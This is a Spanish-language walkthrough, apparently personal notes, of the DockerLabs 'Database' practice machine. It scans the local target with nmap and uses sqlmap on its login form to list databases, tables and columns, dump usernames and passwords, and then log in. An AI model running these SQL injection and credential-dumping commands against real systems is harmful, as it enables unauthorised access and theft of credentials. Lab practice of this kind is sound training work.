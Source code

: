 Maquinas a utilizar **Kali Linux y Database** [DockerLabs](https://dockerlabs.es/)

  

- Desplegamos la maquina victima de la siguiente manera.
    
    Lo llevamos al muestra maquina Kali Linux y lo descomprimimos en el escritorio. En una terminal escribimos el siguiente comando:
    
    ```Bash
    sudo bash auto_deploy.sh database.tar 
    ```
    
    ![[Imagenes/image 39.png|image 39.png]]
    
    Nos indica la IP de la maquina victima **172.17.0.2**. Sin cerrar este terminal abrimos otro para continuar con la inyección SQL.
    
      
    
    ```Bash
    nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
    ```
    
    ![[Imagenes/image 1 28.png|image 1 28.png]]
    
      
    
    No vemos ninguna **base de datos,** esto es normal por que **no necesariamente** la base de datos **tiene que estar expuesta**. Puede ser que que podamos acceder a una base de datos desde cualquier equipo o como en esta la base de datos no tenga el puerto abierto.
    
- En el navegador web ponemos la IP de la maquina victima. Nos encontramos ante un panel de Login. Aquí hay una base de datos que esta corriendo de forma interna y por eso no la veíamos expuesta.
    
    ![[Imagenes/image 2 27.png|image 2 27.png]]
    

  

- Aquí lo ideal es probar inyecciones SQL utilizando sqlmap.
    
    Vamos a meter un login erróneo por si nos mostrara el archivo en el que esta corriendo.
    
    ![[Imagenes/image 3 26.png|image 3 26.png]]
    

- Vamos a intentar encontrar las **bases de datos** existentes **.**
    
    ```Bash
    sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
    ```
    
    ![[Imagenes/image 4 25.png|image 4 25.png]]
    

  

- Toca el turno de las **tablas** en una de las bases de datos en este caso en la base de datos “register”.
    
    ```Bash
    sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
    ```
    
    ![[Imagenes/image 5 24.png|image 5 24.png]]
    

- Tenemos la tabla “users”. Toca encontrar **columnas** dentro de esta tabla.
    
    ```Bash
    sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
    ```
    
    ![[Imagenes/image 6 22.png|image 6 22.png]]
    
      
    
- Ya nos quedaría el ultimo paso que seria mostrar los **registros de las columnas**.
    
    ```Bash
    sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch
    ```
    
    ![[Imagenes/image 7 20.png|image 7 20.png]]
    
      
    

- Vamos a probar las credenciales en el panel de login.
    
    ![[Imagenes/image 8 18.png|image 8 18.png]]
    
    ![[Imagenes/image 9 17.png|image 9 17.png]]